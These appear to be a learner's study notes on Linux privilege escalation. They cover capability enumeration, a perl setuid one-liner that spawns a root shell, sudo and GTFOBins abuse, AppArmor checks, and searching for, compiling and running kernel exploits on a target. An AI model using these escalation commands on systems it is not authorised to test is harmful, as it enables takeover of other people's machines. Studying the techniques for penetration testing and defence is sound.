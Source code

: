 manual enumeration of the vulnerability:

/usr/sbin/getcap -r / 2>/dev/null

-r for recusive search of / root
2>/dev/null is error handel

we should look for intresting flags like:
cap_setuid+ep
+ep means effective and permitted

we can check on GTFOBins website to check how the capability can  be misused

for perl:
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'


Abusing Sudo

config of sudo permissions can be applied in /etc/sudoers
sudo --list 
||
sudo -l
to list the allowed commands

if /etc/sudoers config is too permissive, user can abuse admin rights

check with GTFObins

if the GTFOBins fails check with: 
cat /var/log/syslog | grep <name>

audit daemon of AppArmor can block priv esc attempts from kernel

we can verify the status of AppArmor with root

aa-status



Exploiting Kernel Vulnerabilities

strong way to esc priv, but depends on kernel version, os flavor

first enum:
cat /etc/issue

uname -r

arch

use searchsploit
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

if using gcc exploits:
kali comes with gcc
we can compile and run on target with

scp <name>.c <username>@<ip>:
this transfers
gcc <name>.c -o <name>
this compiles
file <name>
double check the arch
./<name>
run

linpeas.sh op, use it

pkexec means pwnkit if kernel 2018>